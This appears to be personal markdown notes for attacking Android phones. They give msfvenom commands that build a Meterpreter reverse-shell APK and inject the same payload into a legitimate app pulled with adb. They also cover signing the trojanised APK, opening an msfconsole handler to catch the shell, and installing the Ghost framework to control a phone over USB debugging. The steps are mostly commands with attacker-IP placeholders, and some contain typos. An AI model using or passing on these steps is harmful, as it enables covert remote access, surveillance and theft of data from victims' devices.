 
# HAK5 shop
One of the most shop for hacking is [https://shop.hak5.org/](https://shop.hak5.org/)

Here we can find a lot of tools to perform pentesting, like cables that can execute malicious attack such as keylogging.



# Create generic APK with using metasploit shell


We can easily create a generic APK that executes a shell using:
```shell
msfvenom -p andorid/meterpreter/reverse_tcp LHOST=OUR_IP_ADDRESS LPORT = OUR_PORT R > malicious_file.apk
```


At this point we need to sign it:
```shell
keytool -genkey -v -keystore custom.keystore -alias alias_we_want -keyalg RSA -keysize 2048 -validity 10000
```
- add random info when required

```shell
jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore our_key.key -storepass password_we_want file.apk alias_of_our_key
```

```shell
zipalign 4 file.apk final_file.apk
```



At this point we need to open a shell on our host.


# inject a shell in an playstore app


In some cases we need to remove `apktool` and reinstall it from `ibotpeaches` [https://apktool.org/docs/install/](https://apktool.org/docs/install/)

At this point we need to pull the apk of the app we want to inject:
```shell
adb shell
```
```shell
pm list packages | grep package_name_we_want 
```
```shell
pm path package_name_we_want
```
```shell
adb pull path_found
```



At this point we can execute:
```shell
msfvenom -x pulled.apk -p andorid/meterpreter/reverse_tcp LHOST=OUR_IP_ADDRESS LPORT = OUR_PORT -o malicious_file.apk
```


At this point we install it.

We open a shell on our host:
```shell
msfconsole

search exploit/multi/handler

use number_of_handler

set LHOST our_IP
set LPORT our_port

run
```


# Ghost framework
First of all we need to put the device in a developer mode:
`Settings`->`About device` ->`click several times on build number` 

Then we need to enable usb debugging:
`Developer options` -> `USB debugging`


Now we can download ghost framework :
```shell
git clone https://github.com/EntySec/Ghost 
```

To install it we cna use 
```shell
sudo ./install.sh
```

To run it we need to execute 
```shell
./ghost
```
- on the folder

At this point we can use it.

We need to set the target phone IP:
```shell
set RHOST PHONE_IP
```

And run it:
```shell
run
```

At this point we can execute the scripts we want to use.


